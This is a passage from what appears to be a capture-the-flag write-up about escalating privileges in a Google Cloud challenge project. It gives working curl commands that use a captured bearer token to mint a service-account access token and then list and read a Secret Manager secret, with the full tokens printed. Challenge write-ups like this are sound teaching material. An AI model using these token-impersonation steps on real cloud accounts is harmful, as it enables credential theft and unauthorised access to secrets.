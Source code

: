There is actually an API for creating access tokens for a specific service account here: https://cloud.google.com/iam/docs/reference/credentials/rest/v1/projects.serviceAccounts/generateAccessToken

Let's check if it works!

We now need to do the following POST request:

`curl -H 'authorization: Bearer ya29.c.Kn_dB1yqILFXvNzBMncPrpCALQ-4dhzfhNjIudh6ZCmaAtBNbGWzjTn9YmBSSxUDplTVcMmcuuKcw6qpK3fc68JT2BI7wrGHLcQ4mifGQ0AyVaQZGJQ1JKQxfIF015gLdNK8SeQjdQufCnXZTvWm0GirhKB7VtmheE1-r09n9khj' https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/secret-manager@discloud-chal.iam.gserviceaccount.com:generateAccessToken -XPOST -H 'content-type: application/json' --data '{"delegates":[],"scope":["https://www.googleapis.com/auth/cloud-platform"]}'`

I first tried to send an empty `scope` value, but that did not work, so I set it to `https://www.googleapis.com/auth/cloud-platform`. We now get an access token back!

```json
{
  "accessToken": "ya29.c.Ko4C3Qf-S8rcLf1PkZildJPzRHxI60kqRM414NUfZYolVvSugFRMevK2nMs_2I_X9ScCf7JssEeNrQWrjlXZxwv6L0AR8tLGXpgzCaSE_XUpIuhie1zgcWukTbL24eHzQfUFPg_oPazKbSOitKYd4WC9izaniIG_z0IrF0FxEex4tbP_awrsJut6KSDg14oiqkUS2G0Nq7U8gN32NCmSp2zmSCgA5wODE92SrXSTYS-XZqIrzOS8vUqwz0oqSd0b-wlpKfMdd6N7quUgCltNfKi3tAOIrvvA6OK5-iBdKarQnZ1skm6wfqZujMo9yt5moELuT87ZYPxMhb2ZNIg8iQmxbwnV4gNwVPnGNzA5_S8z",
  "expireTime": "2020-09-18T17:17:25Z"
}
```

## Last step!

Now we can try to use this access token to get a list of all the secrets like we tried earlier.

`curl -H 'authorization: Bearer ya29.c.Ko4C3Qf-S8rcLf1PkZildJPzRHxI60kqRM414NUfZYolVvSugFRMevK2nMs_2I_X9ScCf7JssEeNrQWrjlXZxwv6L0AR8tLGXpgzCaSE_XUpIuhie1zgcWukTbL24eHzQfUFPg_oPazKbSOitKYd4WC9izaniIG_z0IrF0FxEex4tbP_awrsJut6KSDg14oiqkUS2G0Nq7U8gN32NCmSp2zmSCgA5wODE92SrXSTYS-XZqIrzOS8vUqwz0oqSd0b-wlpKfMdd6N7quUgCltNfKi3tAOIrvvA6OK5-iBdKarQnZ1skm6wfqZujMo9yt5moELuT87ZYPxMhb2ZNIg8iQmxbwnV4gNwVPnGNzA5_S8z' https://secretmanager.googleapis.com/v1beta1/projects/discloud-chal/secrets`

```json
{
  "name": "projects/940676843154/secrets/big_secret",
  "replication": {
    "automatic": {}
  },
  "createTime": "2020-09-13T06:32:31.797548Z"
}
```

Nice, there is a `big_secret` here! :+1:

But what does it contain? According to the [documentation](https://cloud.google.com/secret-manager/docs/reference/rest/v1beta1/projects.secrets.versions/access) we need to add `:access` to access the data we want:

`curl -H 'authorization: Bearer ya29.c.Ko4C3Qf-S8rcLf1PkZildJPzRHxI60kqRM414NUfZYolVvSugFRMevK2nMs_2I_X9ScCf7JssEeNrQWrjlXZxwv6L0AR8tLGXpgzCaSE_XUpIuhie1zgcWukTbL24eHzQfUFPg_oPazKbSOitKYd4WC9izaniIG_z0IrF0FxEex4tbP_awrsJut6KSDg14oiqkUS2G0Nq7U8gN32NCmSp2zmSCgA5wODE92SrXSTYS-XZqIrzOS8vUqwz0oqSd0b-wlpKfMdd6N7quUgCltNfKi3tAOIrvvA6OK5-iBdKarQnZ1skm6wfqZujMo9yt5moELuT87ZYPxMhb2ZNIg8iQmxbwnV4gNwVPnGNzA5_S8z' https://secretmanager.googleapis.com/v1beta1/projects/discloud-chal/secrets/big_secret/versions/latest:access`
